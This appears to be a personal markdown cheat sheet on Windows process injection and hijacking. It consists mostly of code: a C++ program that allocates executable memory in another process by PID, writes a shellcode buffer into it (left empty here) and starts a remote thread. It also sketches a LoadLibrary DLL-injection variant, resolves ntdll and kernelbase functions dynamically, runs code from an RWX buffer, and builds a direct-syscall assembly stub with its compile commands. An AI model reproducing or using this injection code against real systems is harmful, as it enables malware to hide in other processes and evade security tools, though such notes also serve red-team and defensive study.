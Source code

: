# Windows 
### Injection and Hijacking

### Win APi Functions

```cpp
OpenProcess ()

VirtualAllocEx ()

WriteProcessMemory()

CreateRemoteThread()
```

### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```


```cpp
    execMem = VirtualAlloc(NULL, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(execMem, code, sizeof(code));
    f = (Func)execMem;
    f(&hPipe);
```

inject inline asm with naked function



```asm
; syscall.asm

.code
public MyNakedFunction

MyNakedFunction proc
    mov r10, rcx        ; Windows x64 ABI requires syscall target in R10
    mov eax, 0c4h       ; 
    ret
MyNakedFunction endp

end
```
assemble

```
ml64 /c /Fo syscall.obj syscall.asm 
```

then in your cpp
```cpp
extern "C" int MyNakedFunction(HANDLE *); 
```

compile with 
```
cl /O2 windows.cpp syscall.obj
```
